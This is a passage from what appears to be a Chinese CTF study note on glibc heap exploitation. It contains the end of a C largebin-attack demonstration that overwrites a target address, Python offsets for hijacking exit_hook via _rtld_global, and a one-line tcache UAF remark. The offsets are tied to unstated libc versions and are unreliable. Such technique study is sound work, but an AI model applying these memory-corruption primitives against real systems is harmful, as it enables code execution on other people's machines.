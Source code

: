 ```c
  size_t *g4 = malloc(0x438); // *
  printf("Finally, allocate another chunk larger than [p2] (%p) to place [p2] (%p) into large bin\n", p2-2, p2-2);
  printf("Since glibc does not check chunk->bk_nextsize if the new inserted chunk is smaller than smallest,\n");
  printf("  the modified p1->bk_nextsize does not trigger any error\n");
  printf("Upon inserting [p2] (%p) into largebin, [p1](%p)->bk_nextsize->fd_nextsize is overwritten to address of [p2] (%p)\n", p2-2, p1-2, p2-2);

  printf("\n");

  printf("In out case here, target is now overwritten to address of [p2] (%p), [target] (%p)\n", p2-2, (void *)target);
  printf("Target (%p) : %p\n",&target,(size_t*)target);

  assert((size_t)(p2-2) == target);

  return 0;
}

```

‍

## exit_hook

‍

- 低版本

- 忘记写版本了，哈哈哈， 不过 高版本变了，可以看 文章里的

‍

```python
_rtld_global = ld_base + ld.sym['_rtld_global']
exit_hook = libc_base + 0x619060 + 3848

_dl_rtld_lock_recursive = _rtld_global + 0xf08
_dl_rtld_unlock_recursive = _rtld_global + 0xf10
```

‍

## tcache bin tcache struct

- libc2.27 - 至今

tcachebins  UAF 修改链表    0x250 这个堆块是  tcache struct ?

‍
